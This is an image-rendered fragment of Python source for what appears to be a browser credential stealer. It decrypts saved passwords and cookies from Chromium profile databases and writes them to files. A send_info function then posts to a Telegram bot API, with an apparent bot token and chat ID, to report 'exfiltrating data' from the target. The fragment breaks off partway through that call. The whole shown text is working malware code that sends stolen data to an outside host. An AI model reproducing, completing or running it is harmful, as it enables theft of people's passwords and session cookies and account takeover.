 ```py
                    to_print = f"URL : {logins[0]}\nName: {logins[1]}\nPass: {dec_pass}\n\n"
                    with open(filePass, "a") as f:
                        f.write(to_print)
                except (Exception, FileNotFoundError):
                    pass
        ######################################################################
        if os.path.exists(CookiesFile):
            copy2(CookiesFile, "CookMe.db")
            with connect("CookMe.db") as conn:
                curr = conn.cursor()
            curr.execute("SELECT host_key, name, encrypted_value, expires_utc FROM cookies")
            with open(fileCookies, "a") as f:
                f.write(f"*** {name} ***\n")
            for index, cookies in enumerate(curr.fetchall()):
                try:
                    if not cookies[0]:
                        continue
                    if not cookies[1]:
                        continue
                    if not cookies[2]:
                        continue
                    if "google" in cookies[0]:
                        continue
                    ciphers = cookies[2]
                    init_vector = ciphers[3:15]
                    enc_pass = ciphers[15:-16]
                    cipher = generate_cipher(master_key, init_vector)
                    dec_pass = decrypt_payload(cipher, enc_pass).decode()
                    to_print = f'URL : {cookies[0]}\nName: {cookies[1]}\nCook: {dec_pass}\n\n'
                    with open(fileCookies, "a") as f:
                        f.write(to_print)
                except (Exception, FileNotFoundError):
                    pass


def Local_State(path):
    return f"{path}\\User Data\\Local State"


def Login_Data(path):
    if "Profile" in path:
        return f"{path}\\Login Data"
    else:
        return f"{path}\\User Data\\Default\\Login Data"


def Cookies(path):
    if "Profile" in path:
        return f"{path}\\Network\\Cookies"
    else:
        return f"{path}\\User Data\\Default\\Network\\Cookies"


def decrypt_files(path, browser):
    if os.path.exists(path):
        decrypt_browser(Local_State(path), Login_Data(path), Cookies(path), browser)


def send_info():
    requests.post(
        'https://api.telegram.org/bot5922953099:AAG89vBZZIoXt4FbYkUmdukyR9yYniBHxz4/sendMessage',
        data={'chat_id': '-1001855149018', 'text': f'Script executed at target "{username}", exfiltrating data...'}
```